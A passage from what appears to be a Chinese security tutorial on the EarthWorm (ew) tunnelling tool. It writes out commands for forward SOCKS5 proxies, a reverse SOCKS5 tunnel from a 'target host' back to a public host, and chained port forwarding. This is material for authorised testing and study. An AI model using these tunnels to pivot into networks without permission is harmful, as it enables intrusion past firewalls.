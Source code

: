 
实际连接成功后会创建 8 个 proxy，命名为 `test_tcp_0, test_tcp_1 ... test_tcp_7`。

## 0x03 ew

### 3.1 简介

> EW 是一套便携式的网络穿透工具，具有 SOCKS v5服务架设和端口转发两大核心功能，可在复杂网络环境下完成网络穿透。但是，现在工具已经不更新了。。。

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/lPwvgkMwLNh3SB1L2mFa9HI4cnAT0UehclrhYkUrC5ficdibdKbKgZkZTUZYzAZgp5vaXcM4h7fQnbiadq8grb3Iw/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1)

### 3.2 特点

  * 轻量级，C语言编写
  * 可以设置多级代理
  * 跨平台
  * 但是只支持Socks5代理

### 3.3 使用方法

> 以下使用方法均摘自：http://rootkiter.com/EarthWorm/

以下所有样例，如无特殊说明代理端口均为1080，服务均为SOCKSv5代理服务.

该工具共有 6 种命令格式（ssocksd、rcsocks、rssocks、lcx_slave、lcx_listen、lcx_tran）。

  * 正向 SOCKS v5 服务器

    
    
    $ ./ew -s ssocksd -l 1080  
    

  * 反弹 SOCKS v5 服务器

这个操作具体分两步：

a) 先在一台具有公网 ip 的主机A上运行以下命令：

    
    
    $ ./ew -s rcsocks -l 1080 -e 8888  
    

b) 在目标主机B上启动 SOCKS v5 服务 并反弹到公网主机的 8888 端口

    
    
    $ ./ew -s rssocks -d 1.1.1.1 -e 8888  
    

成功。

  * 多级级联

工具中自带的三条端口转发指令， 它们的参数格式分别为：

    
    
    $ ./ew -s lcx_listen -l  1080 -e 8888    
    $ ./ew -s lcx_tran   -l  1080 -f 2.2.2.3 -g 9999    
    $ ./ew -s lcx_slave  -d 1.1.1.1 -e 8888 -f 2.2.2.3 -g 9999  
    